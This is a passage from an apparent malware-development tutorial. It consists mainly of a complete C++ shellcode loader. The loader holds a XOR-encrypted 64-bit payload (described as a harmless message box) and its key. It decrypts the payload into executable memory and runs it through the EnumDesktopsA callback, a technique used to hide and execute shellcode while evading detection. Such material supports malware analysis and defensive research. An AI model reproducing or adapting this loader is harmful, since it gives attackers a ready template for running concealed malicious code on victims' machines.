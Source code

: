 Also add decryption function (`hack2.cpp`):     

```cpp
/*
 * hack.cpp - run shellcode via EnumDesktopA. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox encrypted
  { 0x91, 0x31, 0xf2, 0x91, 0x80, 0x9a, 0x8d, 0x8c, 0x8d, 0xb3, 0x72,
    0x65, 0x74, 0x2a, 0x34, 0x38, 0x3d, 0x2b, 0x22, 0x23, 0x38, 0x54,
    0xa0, 0x16, 0x2d, 0xe8, 0x20, 0x5, 0x4a, 0x23, 0xee, 0x2b, 0x75,
    0x47, 0x3b, 0xfe, 0x22, 0x45, 0x4c, 0x3b, 0xee, 0x11, 0x22, 0x5b,
    0x3c, 0x64, 0xd2, 0x33, 0x27, 0x34, 0x42, 0xbc, 0x38, 0x54, 0xb2,
    0xdf, 0x59, 0x2, 0xe, 0x67, 0x58, 0x4b, 0x24, 0xb8, 0xa4, 0x74,
    0x32, 0x74, 0xb1, 0x87, 0x9f, 0x21, 0x24, 0x32, 0x4c, 0x2d, 0xff,
    0x39, 0x45, 0x47, 0xe6, 0x3b, 0x4f, 0x3d, 0x71, 0xb5, 0x4c, 0xf8,
    0xe5, 0xeb, 0x72, 0x65, 0x74, 0x23, 0xe0, 0xb9, 0x19, 0x16, 0x3b,
    0x74, 0xa0, 0x35, 0x4c, 0xf8, 0x2d, 0x7b, 0x4c, 0x21, 0xff, 0x2b,
    0x45, 0x30, 0x6c, 0xa9, 0x90, 0x29, 0x38, 0x9a, 0xbb, 0x4d, 0x24,
    0xe8, 0x46, 0xed, 0x3c, 0x6a, 0xb3, 0x34, 0x5c, 0xb0, 0x3b, 0x44,
    0xb0, 0xc9, 0x33, 0xb2, 0xac, 0x6e, 0x33, 0x64, 0xb5, 0x53, 0x85,
    0xc, 0x9c, 0x47, 0x3f, 0x76, 0x3c, 0x41, 0x7a, 0x36, 0x5c, 0xb2,
    0x7, 0xb3, 0x2c, 0x55, 0x21, 0xf2, 0x2d, 0x5d, 0x3a, 0x74, 0xa0,
    0x3, 0x4c, 0x32, 0xee, 0x6f, 0x3a, 0x5b, 0x30, 0xe0, 0x25, 0x65,
    0x24, 0x78, 0xa3, 0x4b, 0x31, 0xee, 0x76, 0xfb, 0x2d, 0x62, 0xa2,
    0x24, 0x2c, 0x2a, 0x3d, 0x27, 0x34, 0x23, 0x32, 0x2d, 0x31, 0x3c,
    0x33, 0x29, 0x2d, 0xe0, 0x9e, 0x45, 0x35, 0x39, 0x9a, 0x99, 0x35,
    0x38, 0x2a, 0x2f, 0x4e, 0x2d, 0xf9, 0x61, 0x8c, 0x2a, 0x8d, 0x9a,
    0x8b, 0x36, 0x2c, 0xbe, 0xac, 0x79, 0x73, 0x75, 0x70, 0x5b, 0x3a,
    0xfe, 0xf0, 0x9d, 0x72, 0x65, 0x74, 0x55, 0x29, 0xf4, 0xe8, 0x70,
    0x72, 0x75, 0x70, 0x2d, 0x43, 0xba, 0x24, 0xd9, 0x37, 0xe6, 0x22,
    0x6c, 0x9a, 0xac, 0x25, 0x48, 0xba, 0x34, 0xca, 0x95, 0xc7, 0xd1,
    0x33, 0x9c, 0xa7, 0x28, 0x11, 0x4, 0x12, 0x54, 0x0, 0x1c, 0x1c,
    0x2, 0x51, 0x65, 0x4f, 0x2d, 0x4b, 0x4d, 0x2c, 0x58, 0x74 };


// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

  // decrypt (deXOR) the payload
  XOR((char *) my_payload, sizeof(my_payload), my_secret_key, sizeof(my_secret_key));

  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```
